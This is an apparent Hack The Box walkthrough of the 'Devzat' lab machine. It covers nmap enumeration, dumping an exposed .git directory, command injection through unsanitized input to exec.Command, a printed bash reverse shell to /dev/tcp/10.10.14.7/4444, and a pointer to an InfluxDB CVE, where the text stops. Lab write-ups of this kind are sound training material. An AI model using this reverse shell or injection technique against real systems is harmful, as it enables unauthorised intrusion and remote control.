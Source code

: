 = Devzat =

== Introduction ==

== Enumeration ==

=== Nmap ===

From the nmap results, we can see that this is a webserver with an unidentified app on port 8000.
Based on the scan on port 8000, it seems to be using a go library called [[https://github.com/karfield/ssh2go|ssh2go]]

{{{class="nohighlight"
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: devzat - where the devs at
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=7/5%Time=62C472E7%P=x86_64-pc-linux-gnu%r(NUL
SF:L,C,"SSH-2\.0-Go\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/5%OT=22%CT=1%CU=34441%PV=Y%DS=2%DC=T%G=Y%TM=62C47312
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   21.19 ms 10.10.14.1
2   21.28 ms devzat.htb (10.10.11.118)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
}}}

=== Website - [[http://devzat.htb]] ===

Initial scanning shows the box has a website up. Trying to navigate to the website redirects us to
[[http://devzat.htb]]. After updating our /etc/hosts, we are able to see the webpage.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ cat /etc/hosts
10.10.14.1    devzat.htb
}}}

{{local:../images/devzat/website/homepage.png|http://devzat.htb Homepage}}

Not much about the site itself is interesting. However, there is a message at the bottom informing
the reader that they are invited to try out their chat app.

{{local:../images/devzat/website/chat_app_start_instructions.png|Chat app usage}}

When running the instructed command, you may receive an error about no matching host key type. This
error can be resolved by adding a few lines to ~/.ssh/config

{{{class="nohighlight"
Host devzat.htb
	HostName devzat.htb
	User dev
	PubkeyAcceptedAlgorithms +ssh-rsa
	HostkeyAlgorithms +ssh-rsa
}}}

Then we can run the command to gain access to the chat app

{{local:../images/devzat/chat_app/initial_connection.png|Initial Connection}}

=== Chat App First Look ===

With just the basic level of access we have, there is not much that can be done with the app right
now. We will come back to this at a later point

=== Subdomin - [[http://pets.devzat.htb]] ===

Taking a look back at port 80, since we needed to add an entry to /etc/hosts, it may be worthwhile
to scan for subdomains. We will scan for subdomains using Gobuster.

{{local:../images/devzat/website/pets/gobuster_subdomain_discovery.png|Pets Subdomain Discovery}}

Our scan finds one valid subdomain at [[http://pets.devzat.htb]] The homepage is an incomplete CRUD
app.

{{local:../images/devzat/website/pets/homepage.png|http://pets.devzat.htb Homepage}}

The most that can be done is adding a pet to the pet inventory, but its not hooked up to a database
so nothing saves. Running Gobuster to find other endpoints shows that [[http://pets.devzat.htb/.git/]]
is publicly readable. We can grab the contents of the folder with
[[https://pypi.org/project/git-dumper/|git-dumper]], but we can also just download the directory
with a tool like wget.

{{{class="nohighlight"
trent@TMDeal-kali[Devzat]$ git-dumper http://pets.devzat.htb/.git pets
...
...
...
trent@TMDeal-kali[Devzat]$ ls -al pets/
total 9776
drwxr-xr-x  5 trent trent    4096 Jul 26 17:44 .
drwxrwxrwt 28 root  root    12288 Jul 26 17:44 ..
drwxr-xr-x  2 trent trent    4096 Jul 26 17:44 characteristics
drwxr-xr-x  7 trent trent    4096 Jul 26 17:44 .git
-rw-r--r--  1 trent trent      25 Jul 26 17:44 .gitignore
-rw-r--r--  1 trent trent      88 Jul 26 17:44 go.mod
-rw-r--r--  1 trent trent     163 Jul 26 17:44 go.sum
-rw-r--r--  1 trent trent    4420 Jul 26 17:44 main.go
-rwxr-xr-x  1 trent trent 9957033 Jul 26 17:44 petshop
-rwxr-xr-x  1 trent trent     123 Jul 26 17:44 start.sh
drwxr-xr-x  4 trent trent    4096 Jul 26 17:44 static
}}}

This is probably the source code for the pets web application. Inside of main.go, there is a line
where that takes out input without sanitizing it and passes it to `exec.Command`. This means we can
inject our own commands into this command and gain remote code execution

{{local:../images/devzat/git/main_execs_sh.png|Call to exec.Command}}

== Shell as Patrick ==

To test if we can properly execute code, we will just see if we can get the contents of /etc/passwd

{{local:../images/devzat/git/burp_payload.png|Burp Payload}}
{{local:../images/devzat/git/dumping_etc_passwd.png|Contents of /etc/passwd}}

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.

{{local:../images/devzat/git/rce_request.png|Sending the request with Burp}}
{{local:../images/devzat/shell_as_patrick.png|Shell as Patrick}}

From there, we can grab Patrick's ssh key for a better shell experience

{{local:../images/devzat/shell_as_patrick_ssh.png}}

== Shell as Catherine ==

=== Interesting ports ===

After running linpeas, we can see that there are some ports that are open locally that we could not
previously access

{{local:../images/devzat/linpeas/active_ports.png}}

Right now, we do not know what these ports do, so we will look around some more.

=== Patrick Chat Log ===

We can see Patrick's chat log in their app by logging into it while logged into the machine

{{local:../images/devzat/patrick_chat_log.png}}

Looking up info on Influxdb shows that it runs on port 8086 by default. We can check the version of
Influxdb running by making a HEAD request with curl on port 8086

{{local:../images/devzat/influxdb/influxdb_version.png}}

Looking up "Influxdb 1.7.5" on google shows results for
[[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933|CVE-2019-20933]]. 



